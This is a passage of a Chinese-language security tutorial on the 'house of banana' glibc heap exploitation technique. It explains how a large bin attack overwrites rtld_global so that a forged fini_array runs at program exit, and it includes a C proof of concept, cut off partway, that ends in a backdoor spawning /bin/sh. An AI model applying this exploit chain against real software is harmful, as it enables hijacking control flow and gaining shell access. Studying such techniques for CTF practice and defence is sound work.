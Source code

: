 因此，伪造该结构体指针，可以使得array指向我们可控的数据区，从而布置下一系列函数，进而劫持程序的流，那么house of banana的思想就是利用large bin attack往rtld_global写入堆的地址，并事先在堆里伪造好rtld_global结构体，这样程序exit或者正常退出main函数时，便会执行到伪造的fini_array数组。

### <a class="reference-link" name="poc"></a>poc

poc需要根据环境需要修改偏移，在有些情况下，rtld_global_ptr与libc_base的偏移在本地与远程并不是固定的，可能会在地址的第2字节处发生变化，因此可以爆破256种可能得到远程环境的精确偏移。

```
#include &lt;stdio.h&gt;
#include &lt;stdlib.h&gt;

void backdoor() `{`
   puts("you hacked me!!");
   system("/bin/sh");
`}`

int main() `{`
   puts("house of banana's poc");
   size_t libc_base = &amp;puts - 0x87490;
   size_t _rtld_global_ptr_addr = libc_base + 0x227060;
   char *ptr0 = malloc(0x450);
   char *gap = malloc(0x10);
   char *ptr1 = malloc(0x440);
   gap = malloc(0x10);
   char *ptr2 = malloc(0x410);
   gap = malloc(0x10);

   free(ptr0);
   //put ptr9 into large bin
   malloc(0x500);
   free(ptr1); //free ptr1 into unsorted bin
   free(ptr2); //free ptr2 into unsorted bin
   //bk_nextsize = _rtld_global_ptr_addr
   *(size_t *)(ptr0 + 0x18) = _rtld_global_ptr_addr - 0x20;
   malloc(0x410); //large bin attack to  hijack _rtld_global_ptr

   //fake a _rtld_global
   size_t fake_rtld_global_addr = ptr1 - 0x10;
   size_t *fake_rtld_global = (size_t *)ptr1;
   char buf[0x100];
   //the chain's length must &gt;= 4
   fake_rtld_global[1] = &amp;fake_rtld_global[2];
   fake_rtld_global[3] = fake_rtld_global_addr;

   fake_rtld_global[2+3] = &amp;fake_rtld_global[3];
   fake_rtld_global[2+5] = &amp;fake_rtld_global[2];

   fake_rtld_global[3+3] = &amp;fake_rtld_global[8];
   fake_rtld_global[3+5] = &amp;fake_rtld_global[3];

   fake_rtld_global[8+3] = 0;
   fake_rtld_global[8+5] = &amp;fake_rtld_global[8];


   //fake a fini_array segment
   fake_rtld_global[0x20] = &amp;fake_rtld_global[0x30];
   fake_rtld_global[0x22] = &amp;fake_rtld_global[0x23];
   fake_rtld_global[0x23+1] = 0x8; //func ptrs total len


   fake_rtld_global[0x30] = 0x1A;
   fake_rtld_global[0x31] = 0;
   fake_rtld_global[-2] = &amp;fake_rtld_global[0x32];
```